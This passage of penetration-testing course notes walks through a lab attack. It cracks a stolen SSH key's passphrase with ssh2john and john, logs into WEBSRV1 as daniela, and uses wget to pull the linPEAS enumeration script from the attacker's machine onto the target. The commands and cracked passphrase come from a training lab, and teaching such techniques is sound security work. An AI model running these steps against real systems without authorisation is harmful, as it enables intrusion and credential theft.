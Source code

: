 Next, let's attempt to leverage this key to access WEBSRV1 as _daniela_ via SSH
+ To do so, we have to modify the file permissions as we have done several times in this course
```
kali@kali:~/beyond/websrv1$ chmod 600 id_rsa

kali@kali:~/beyond/websrv1$ ssh -i id_rsa daniela@192.168.50.244
Enter passphrase for key 'id_rsa': 
```
+ Above shows that the SSH private key is protected by a passphrase

Therefore, let's attempt to crack it using **ssh2john** and **john** with the **rockyou.txt** wordlist
+ After a few moments, the cracking attempt is successful as shown in the following listing
```
kali@kali:~/beyond/websrv1$ ssh2john id_rsa > ssh.hash

kali@kali:~/beyond/websrv1$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
...
tequieromucho    (id_rsa) 
...
```

Now, let's attempt to access the system again via SSH by providing the passphrase
```
kali@kali:~/beyond/websrv1$ ssh -i id_rsa daniela@192.168.50.244
Enter passphrase for key 'id_rsa': 

Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-48-generic x86_64)
...
daniela@websrv1:~$ 
```
+ We gained access to the first target in the penetration test

Before we head into the next section, where we'll perform post-exploitation enumeration, let's add the cracked passphrase to the **creds.txt** file in the work environment directory
+ As users tend to reuse passwords and passphrases, we may need it again later in this assessment

### A Link to the Past
In the previous section, we gained access to the target machine WEBSRV1
+ In this section, we'll perform local enumeration to identify attack vectors and sensitive information and attempt to elevate our privileges

Because we often have time constraints in a penetration test, such as the duration of an assessment, let's use the _linPEAS_ automated Linux enumeration script to obtain a broad variety of information and identify any potential low hanging fruit
+ To do this, let's copy **linpeas.sh** to the **websrv1** directory and start a Python3 web server to serve it:
```
kali@kali:~/beyond/websrv1$ cp /usr/share/peass/linpeas/linpeas.sh .

kali@kali:~/beyond/websrv1$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

In our SSH session, we can use **wget** to download the enumeration script:
+ In addition, we'll use **chmod** to make the script executable
```
daniela@websrv1:~$ wget http://192.168.119.5/linpeas.sh
--2022-09-30 12:26:55--  http://192.168.119.5/linpeas.sh                                                                        
Connecting to 192.168.119.5:80... connected.                                                                                    
HTTP request sent, awaiting response... 200 OK                                                                                  
Length: 826127 (807K) [text/x-sh]                                                                                               
Saving to: ‘linpeas.sh’      
```